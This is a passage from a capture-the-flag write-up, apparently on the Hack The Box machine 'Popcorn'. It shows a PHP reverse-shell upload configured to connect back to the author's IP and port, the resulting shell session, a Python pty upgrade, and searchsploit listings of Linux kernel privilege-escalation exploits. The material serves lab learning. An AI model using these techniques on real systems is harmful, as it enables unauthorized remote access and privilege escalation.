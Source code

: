 But the shell is flaky and times out, I need a better shell but my php sucks.
Luckily Kali comes equiped with webshells.

I reactivate the proxy on FireFox for ZAP, only this time when I replay I also specify my IP address and 1337 as the port number as well as the Content Type:

{% highlight php %}
-----------------------------1429460769362258019814915645
Content-Disposition: form-data; name="file"; filename="php-reverse-shell.php"
Content-Type: application/x-php
.
.
.
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.34';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
{% endhighlight %}

This time my listener returns:

{% highlight plaintext %}
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.6] 54293
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 00:06:57 up  2:08,  0 users,  load average: 3.13, 2.86, 1.74
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
{% endhighlight %}

and when I upgrade to bash:

{% highlight shell %}
/usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

I get:

{% highlight plaintext %}
www-data@popcorn:/$ 
{% endhighlight %}

Typically I now would hammer through a few different enumeration techniques, following a guide like g0tmi1k's awesome introduction to [Basic Linux Privilege Escalation] (https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/), however I'm instantly drawn to the uname output my shell gave me:

{% highlight plaintext %}
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
{% endhighlight %}

This is a really old kernel build and it probrably has a few exploits kicking about.

Checking searchsploit gives dozens and dozens, but a couple of nuke level exploits stick out:

{% highlight plaintext %}
searchsploit linux kernel 2.6 nelson
----------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                               |  Path
                                                                             | (/usr/share/exploitdb/)
----------------------------------------------------------------------------- ----------------------------------------
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04) - 'Full-Nelson.c' Local Privileg | exploits/linux/local/15704.c
Linux Kernel < 2.6.36.2 (Ubuntu 10.04) - 'Half-Nelson.c' Econet Privilege Es | exploits/linux/local/17787.c
----------------------------------------------------------------------------- ----------------------------------------